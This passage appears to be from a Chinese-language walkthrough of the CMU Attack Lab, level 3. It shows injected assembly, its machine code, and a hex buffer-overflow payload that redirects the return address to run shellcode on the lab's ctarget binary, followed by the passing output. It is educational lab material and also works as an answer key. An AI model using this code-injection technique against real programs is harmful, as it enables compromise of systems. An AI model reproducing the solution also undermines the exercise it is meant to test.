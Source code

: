 ```asm
mov    $0x5561dca8,%rdi
push   $0x4018fa
ret
```

##### 3.4.5 将汇编代码转换为机器码

类似 [2.4.4](#244-将汇编代码转换为机器码) 节，得到对应的机器码：

```text
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
```

##### 3.4.6 ATTACK

构造用于注入的字符串：

1. 输入这段机器码（13 个字符）；
2. 输入任意 27 个字符填满缓冲区的剩余部分；
3. 输入作为地址的 8 个字符导致溢出，溢出部分将返回地址修改为缓冲区的起始地址 `5561dc78`；
4. 输入表示 `cookie` 的值的字符串。

编辑输入文件 `exploit.txt`：

```text
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```

在 `ctarget` 程序中输入该字符串：

```bash
cat exploit.txt | ./hex2raw | ./ctarget -q
```

输出信息：

```text
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

